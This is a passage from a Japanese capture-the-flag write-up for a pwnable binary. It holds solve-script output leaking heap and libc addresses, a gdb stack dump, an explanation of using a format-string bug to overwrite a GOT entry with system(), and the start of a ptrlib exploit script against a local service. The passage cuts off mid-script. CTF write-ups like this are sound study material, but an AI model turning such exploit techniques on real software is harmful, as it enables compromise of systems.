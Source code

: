```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:9001
[ptrlib] heap = 0x92b070
[ptrlib] libc_base = 0x7f363a8f3000
```

今回はGOTを書き換える方法を取ります．
スタック上にスタック周辺のアドレスを指したポインタがあるので，これを利用しましょう．
```
gdb-peda$ x/32xg $rsp
0x7ffcd7420fe0: 0x0000000000400810      0x0000000000a42010
0x7ffcd7420ff0: 0x0000000000000000      0x0000000000a420d0
0x7ffcd7421000: 0x000a203a656d614e      0x00007ffcd7421030
0x7ffcd7421010: 0x0000000000400810      0x00007fdbe9b1c54e
0x7ffcd7421020: 0x0000000000000000      0x90ad6d3292567500
0x7ffcd7421030: 0x00007ffcd7421070 <--+ 0x0000000000400dde
0x7ffcd7421040: 0x00007ffcd7421158    | 0x0000000100000000
0x7ffcd7421050: 0x0000000000400e20    | 0x0000000400400810
0x7ffcd7421060: 0x0000000000a42010    | 0x90ad6d3292567500
0x7ffcd7421070: 0x0000000000000000 <--+ 0x00007fdbe9acc3d5
```

このとき，上のように上位4バイトが0でないと，使う時に64bitで認識されて変なアドレスになってしまいます．

FSBを2回以上する必要がありますが，最後のアイテムを削除してやれば問題ありません．
このときnがデクリメントされるので，最初のオーバーライト時にnを大きくしておきましょう．
また，偽装したアイテムの最後のポインタは自身のアドレスを指すなどして，nが大きくても参照エラーにならないように注意しましょう．
~~あと，system関数のアドレスを書き込む際は流石に一気に64bitアドレスを書き込むのは無理があるので，32bitごとに分けます．~~
そもそもGOTにあるアドレスの上位4バイトはsystem関数と同じなので変更する必要がありません．

```python
from ptrlib import *

def add_name(name):
    sock.recvuntil(">")
    sock.sendline("1")
    sock.recvline()
    sock.sendline(name)

def add_item(item):
    sock.recvuntil(">")
    sock.sendline("2")
    sock.sendline(str(item))

def view_order(item):
    sock.recvuntil(">")
    sock.sendline("4")
    sock.recvuntil("Item #" + str(item) + ": ")
    return sock.recvline().rstrip()

def remove_item(item):
    sock.recvuntil(">")
    sock.sendline("3")
    sock.sendline(str(item))

elf = ELF("./pwnable")
libc = ELF("./libc-2.17.so")

sock = Socket("127.0.0.1", 9001)
_ = input()

# leak heap address
add_item(3)
add_item(0)
item = view_order(0)
```